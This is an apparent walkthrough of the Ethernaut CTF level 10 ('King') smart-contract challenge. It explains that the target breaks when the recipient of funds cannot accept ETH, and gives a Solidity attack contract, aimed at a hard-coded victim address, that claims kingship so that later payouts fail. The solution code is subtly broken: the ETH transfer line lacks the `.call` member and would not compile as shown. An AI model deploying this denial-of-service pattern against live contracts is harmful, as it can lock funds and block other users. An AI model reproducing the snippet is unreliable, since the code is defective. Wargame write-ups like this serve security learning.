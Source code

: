 # Ethernaut Level 10 (King) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 10. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is to be mindful of solidity's inner workings and quirks when writing logic. In this instance, critical logic depended on the recipient of funds being able to receive them. The hack was thus to make a recipient that is not able to receive ETH, e.g., a contract without a fallback/ receive function.

#### Solution

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract CannotReceive {
    constructor() {}

    address payable victim = payable(0x3970cB8BA7a599052e1F3219c26d55CCEaE88Ad4);

    function claimKingdomForever() public payable{
        (bool success, bytes memory outputData) = victim
        {value: msg.value}("");
        require(success, "Eth transfer failed...");
    }
}
```